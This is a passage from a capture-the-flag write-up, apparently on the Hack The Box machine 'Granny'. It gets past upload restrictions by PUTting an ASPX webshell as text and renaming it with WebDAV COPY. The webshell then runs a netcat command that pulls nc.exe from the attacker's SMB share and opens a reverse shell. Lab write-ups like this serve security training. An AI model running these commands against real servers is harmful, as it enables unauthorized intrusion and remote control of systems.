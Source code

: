However, if we try to upload a text file, the file would be successfully uploaded.
![Uploading text file with PUT method](https://github.com/joelczk/writeups/blob/main/HTB/Images/Granny/put_text.png)

However, we know from the earlier nmap scan that the COPY http method is also available on this web server. We can then first upload the aspx webshell in text format, and then afterwards use the COPY method to copy the aspx webshell in the text format to another endpoint with the .aspx file format.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -X PUT http://granny.htb/cmd.txt -d @cmd.txt

┌──(kali㉿kali)-[~/Desktop]
└─$ curl -X COPY -H 'Destination:http://granny.htb/cmd.aspx' http://granny.htb/cmd.txt
```

### Obtaining reverse shell

To obtain the reverse shell, first we would have to copy the nc.exe executable to our local directory. Afterwards, we will have to start the SMB Server using ```impacket-smbserver```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-smbserver share granny 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Afterwards, we will navigate to http://granny.htb/cmd.aspx and input ```\\10.10.16.8\share\nc.exe -e cmd.exe 10.10.16.8 4000``` into the command to be executed. This will then download the nc.exe exexcutable onto the backend server and cause a reverse shell to be spawned.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000 
listening on [any] 4000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```
